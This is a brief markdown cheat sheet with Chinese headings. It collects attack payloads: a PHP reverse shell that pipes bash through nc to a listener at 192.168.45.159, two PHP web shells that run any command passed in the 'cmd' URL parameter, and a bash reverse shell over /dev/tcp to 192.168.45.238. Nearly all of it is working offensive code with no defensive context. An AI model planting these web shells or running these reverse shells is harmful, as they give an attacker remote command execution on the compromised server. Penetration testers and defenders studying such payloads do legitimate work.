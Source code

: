 ## `PHP` reverse shell
```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.159 4445 > /tmp/f");
?>
```

## `PHP` 短标签，输出到页面
```
<?=system($_GET["cmd"]);?>
```

## `PHP` 一句话木马

```
<?php system($_GET["cmd"]);?>
```

`BASH` 脚本，reverse shell 的基本格式
```
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.238/9999 0>&1
```
